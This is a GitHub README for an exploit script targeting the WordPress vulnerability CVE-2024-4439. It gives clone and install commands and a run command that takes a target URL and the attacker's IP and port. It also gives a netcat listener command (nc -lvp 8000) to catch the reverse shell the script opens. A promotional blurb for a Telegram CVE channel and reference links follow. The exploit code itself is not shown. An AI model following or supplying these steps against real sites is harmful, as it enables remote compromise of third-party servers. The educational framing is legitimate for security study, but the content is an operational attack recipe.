 ## Exploit CVE-2024-4439

This Python script demonstrates an exploit for the vulnerability **CVE-2024-4439**. You can use this script to test a vulnerable WordPress site.

### Usage
Before start

```bash
git clone https://github.com/soltanali0/CVE-2024-4439.git
cd CVE-2024-4439
pip install -r r.txt --break-system-packages
```

Run the script using the following command:

```bash
python3 exploit.py -u https://target.com/ --ip ServerIp --port 8000
```

- `-u`: Specifies the target URL of the WordPress site.
- `--ip`: Defines the attacker's IP address.
- `--port`: Indicates the port number to be used for the reverse shell.

and Run netcat on server 

```bash
nc -lvp 8000
```

### About GO-TO CVE

**GO-TO CVE** is a dedicated channel where I explore various vulnerabilities, their impacts, and mitigation strategies. I publish detailed analyses of specific CVEs each week, including proof-of-concept (PoC) exploits, code snippets, and explanations of how attackers can leverage these vulnerabilities.

In this channel, I aim to educate security enthusiasts and professionals about the importance of vulnerability awareness and the steps needed to protect against potential threats. By understanding vulnerabilities like **CVE-2024-4439**, we can better prepare ourselves to defend our systems and applications.

Join me in this journey of learning and sharing knowledge in cybersecurity!

• https://t.me/GOTOCVE

### Reference

• https://github.com/d0rb/CVE-2024-4439
• https://github.com/MielPopsssssss/CVE-2024-4439

